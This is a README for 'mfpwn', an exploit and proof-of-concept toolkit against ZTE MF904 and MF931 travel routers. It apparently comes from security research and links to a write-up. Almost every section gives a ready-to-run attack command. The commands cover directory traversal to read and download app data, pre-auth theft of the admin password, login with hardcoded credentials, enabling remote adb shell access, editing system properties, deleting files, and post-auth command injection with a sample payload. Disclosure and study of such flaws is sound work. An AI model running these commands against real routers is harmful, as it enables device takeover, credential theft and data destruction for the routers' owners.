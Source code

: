 <p align="center">

  <img src="images/logo.png" width="300">

</p>

A suite of PoC's/exploits/utils for some Android based ZTE travel routers - tested on MF904 (`MF904Q-6.0-1-6735WM_LCD_20240123`) and MF931 (`MF931Q-1.0-1-6735WM-LED-20240301`).

## Blogs 

[[4] Looking at some Newer Models](https://luke-m.xyz/travel_router/p4.md)

## Functionality 

### `enterfold`

Enters a directory and returns a list of the contents (with some info) (uses directory traversal):

```
python3 mfpwn.py -router_ip 192.168.0.1 -admin_pwd admin enterfold /
```

### `download_directory`

Downloads contents of specified directory as `com.android.phone` (using directory traversal), result placed in `./files` respecting original directory structure:

```
python3 mfpwn.py -router_ip 192.168.0.1 -admin_pwd admin download_directory /data/data/com.android.phone
```

### `goform_get`

Makes a request to `http://192.168.0.1/goform/goform_get_cmd_process` (which is accessible pre-auth) to fetch specified value:

```
python3 mfpwn.py -router_ip 192.168.0.1 goform_get "admin_Password"
```

### `sys_prop_get`

Fetches values from `/system/build.prop` with specified ID:

```
python3 mfpwn.py -router_ip 192.168.0.1 sys_prop_get "ro.product.name"
```

### `sys_prop_set`

Sets values in `/system/build.prop` with specified ID:

```
python3 mfpwn.py -router_ip 192.168.0.1 sys_prop_set *key* *value*
```

### `get_file_form`

Makes a request to `http://192.168.0.1/getFileForm` to fetch and print the file:

```
python3 mfpwn.py -router_ip 192.168.0.1 get_file_form /system/build.prop
```

### `enable_adb`

Makes a request to `http://192.168.0.1/adbWifiDebugForm.do` to enable adb over wifi:

```
python3 mfpwn.py -router_ip 192.168.0.1 -admin_pwd admin enable_adb
adb connect 192.168.0.1
adb shell
```

### `get_admin_pwd` 

Abuses a missing authentication check on the `goform_get_cmd_process` tom fetch the admin password of the router pre-auth.

```
python3 mfpwn.py -router_ip 192.168.0.1 get_admin_pwd
```

### `hardcoded_login`

Demonstrates login using discovered hardcoded credentials - result should be there if credentials are present.

```
python3 mfpwn.py -router_ip 192.168.0.1 hardcoded_login
```

### `get_info`

Uses the exposed system property endpoint to fetch useful version information:

```
python3 mfpwn.py -router_ip 192.168.0.1 get_info
```

### `mkdir`

Creates a directory (as `com.android.phone`):

```
python3 mfpwn.py -router_ip 192.168.0.1 mkdir /data/data/com.android.phone/test
```

### `remove`

Removes files (as `com.android.phone`):

```
python3 mfpwn.py -router_ip 192.168.0.1 remove /data/data/com.android.phone test
```

### `ip_port_fileter_injection`

PoC for post-auth command injection in `ADD_IP_PORT_FILETER` handler:

```
python3 mfpwn.py -router_ip 192.168.0.1 ip_port_fileter_injection 'touch /data/local/tmp/pwned'
```